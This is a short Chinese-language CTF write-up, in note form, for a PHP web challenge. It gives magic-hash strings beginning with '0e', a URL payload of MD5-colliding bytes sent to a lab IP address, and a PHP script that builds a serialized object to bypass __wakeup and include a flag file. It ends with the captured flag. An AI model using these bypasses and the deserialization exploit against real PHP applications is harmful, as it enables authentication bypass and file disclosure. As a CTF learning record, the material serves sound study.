# hash&what
	- 哈希函数绕过
		- 可以搜索到对应payload
			- 相等的md5 ((65d1dc32-93ea-4f09-baf9-fb484b8a10f6))
			- 两次md5后仍然以0e开头的md5：``0e1138100474``
			  id:: 6608ccff-319e-4cbe-b0c0-ba28216970d1
			- md4: ``0e251288019``
		- 最终payload如下
		- ```
		  http://192.168.16.159:8005/?a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2&d=0e251288019&c=0e1138100474
		  ```
	- 反序列化
		- 很普通的反序列化绕过，构造脚本如下
		- ```php
		  <?php
		  
		  class  Secrect  { 
		      private  $demo  =  'unseria1i2e.php' ;
		      public function  __construct ( $demo ) { 
		           $this -> file  =  $demo ; 
		      }
		      function  __destruct () { 
		          require_once ( $this -> file ); 
		          echo $flag;
		      }
		      function  __wakeup () { 
		          if ( $this -> file  !=  'unseria1i2e.php' ) { 
		               //the key is in the f14g.php
		               $this -> file  =  'unseria1i2e.php' ; 
		          } 
		      } 
		  }
		  $o = new Secrect("f14g.php");
		  $a = [$o];
		  $s = serialize($a);
		  $s = str_replace("O:7", "O:+7", $s);
		  $s = str_replace(":2:{", ":3:{", $s);
		  echo $s;
		  echo urlencode(base64_encode($s));
		  
		  ?> 
		  ```
	- flag:
		- flag{f472a875d98b5fb2e855490f78649496}